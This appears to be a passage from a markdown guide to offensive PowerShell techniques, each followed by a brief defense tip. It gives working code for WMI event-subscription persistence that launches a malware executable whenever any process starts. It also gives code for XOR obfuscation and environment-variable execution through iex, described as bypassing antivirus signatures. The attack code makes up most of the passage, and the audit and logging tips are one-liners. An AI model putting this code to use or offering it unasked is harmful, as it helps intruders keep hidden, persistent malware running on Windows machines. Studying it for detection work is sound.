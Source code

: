 #### **B. WMI Event Subscription**  
```powershell  
# Trigger malware on new process creation  
$FilterArgs = @{  
  Name = 'MaliciousFilter'  
  EventNameSpace = 'root\CimV2'  
  Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process'"  
}  
$Filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs  
$Consumer = New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property @{  
  Name = 'MaliciousConsumer'  
  CommandLineTemplate = "cmd.exe /c C:\malware.exe"  
}  
New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property @{  
  Filter = $Filter  
  Consumer = $Consumer  
}  
```  
- **Purpose**: Executes malware when any process starts.  
- **Defense**:  
  ```powershell  
  # Audit WMI subscriptions  
  Get-CimInstance -Namespace root/subscription -ClassName __EventFilter  
  ```  

---

### **2. Evasion & Obfuscation**  
#### **A. XOR Obfuscation**  
```powershell  
# Encrypt/decrypt payload with XOR (key: 0x55)  
$key = 0x55  
$encrypted = [System.Text.Encoding]::UTF8.GetBytes('Start-Process C:\malware.exe') | % { $_ -bxor $key }  
$decrypted = $encrypted | % { $_ -bxor $key }  
iex ([System.Text.Encoding]::UTF8.GetString($decrypted))  
```  
- **Purpose**: Bypasses signature-based AV detection.  
- **Defense**: Enable **AMSI** and script block logging.  

#### **B. Environment Variable Obfuscation**  
```powershell  
# Store and execute code via environment variables  
$env:Evil = 'malicious code'; iex $env:Evil  
```  
- **Purpose**: Avoids hardcoding commands in scripts.  
- **Defense**:  
  ```powershell  
  # Hunt suspicious env variables  
  Get-ChildItem Env: | Where-Object { $_.Value -match 'malicious' }  
  ```  

---